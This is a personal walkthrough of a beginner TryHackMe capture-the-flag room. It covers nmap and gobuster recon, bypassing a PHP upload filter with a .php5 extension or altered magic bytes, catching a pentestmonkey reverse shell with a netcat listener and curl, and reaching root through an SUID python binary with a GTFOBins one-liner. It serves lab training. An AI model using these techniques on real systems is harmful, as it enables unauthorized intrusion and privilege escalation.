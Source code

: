 #easy #ctf #tryhackme

# >> Sudhanshu Chatterjee | Jul 30th '24

## TASK 2 - RECON
Did all kinds of different scans to get separate info on separate subjects. Scans included:
- **NMAP**
	- Port scans
	```shell
	sudo nmap --top-ports 20 <MACHINE_IP> -v
	```
	
	- Script / version related vuln. scans
	```shell
	sudo nmap -sC -sV <MACHINE_IP> -v
	```
	
	- a half-done `-A` (aggressive) scan simultaneously, just in case the above scans don't produce any results at all!

- **Gobuster**
	- A directory scan to check for globally accessible directories. Revealed several, out of which 2 were more... interesting🤷🏼.
	```shell
	gobuster dir --url http://<machine_ip>/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t100
	```
	
	- Showed 2 directories of interest, well, they WERE interesting in comparison to the others, `/u******` and `/p****` (Not giving spoilers here!)

These present enough data to:
1. Answer all question from this task.
2. Move forward to next task.

## TASK 3 - Get A Shell
This here is interesting because:
- It requires some research - [HINT](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
- Requires you to make edits to the found `PHP` script to your own advantage. Not a big one, just the `IP`. (Not giving anymore spoilers here!)

Once you get the shell, modify the `IP` to your designated VPN ip. Upload it on the found directory (Come on! You haven't visited the hidden directories yet!).

It's not as easy at it seems. The upload does not allow `.php` extension. Few things we can do to bypass this.

**->> Bypassing Upload Restriction**:
- Check if it's just a string check! or anything containing `php` in its name is not allowed at all. Do this by changing the extension to name to any PHP version, let say `php5`
- It gets permitted to be uploaded. But just in case it DOES NOT. Try changing `magic bits` of uploaded file to match with other **uploadable** (YEAH! I know its not a word! But describes the purpose.) extensions such as `.jpeg` or something else.

Anyways back to Shell. If you did read the and modify the PHP script, which I hope you did, you know what port the script would listen to.

On **OUR** terminal, turn on `netcat` to listen to the stated port.
```shell
netcat -nlvp <port>
```
Now get another terminal on OUR system, and `curl` the script to invoke it.

```shell
curl http://<machine_ip>/uploads/<your_shell_scp_name>.php5
```

This would get you a reverse shell from the target machine, on YOUR LISTENING terminal.

Find the stated file to get your flag:
```shell
sudo find / -type f -name user.txt 2> /dev/null
```
- `2> /dev/null` - to not show any errors messages in search result.

Time to takeover!

## TASK 4 - Privilege Escalation
As stated in task, look for files with SUID permit. If you don't know what that is, go have a read on it. Internet is free to use.

Once done reading, run a `find` command to look for those files:
```shell
sudo find / -type f -user root -perm -u=s 2> /dev/null
```

This should list all the SUID bit-set files. You'll find one which usually does not belong to it. `/p....`!

Look at the hint to learn about [GTFObins](https://gtfobins.github.io/#). Search for found file, read on it. You'll see python has some tricks to give something it should NOT be able to.

Run:
```shell
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
This code would do the trick, and get you in as **root**. Congrats!

Search for stated file:
```shell
find / -type f -name root.txt
```
Get you flag and you are all set!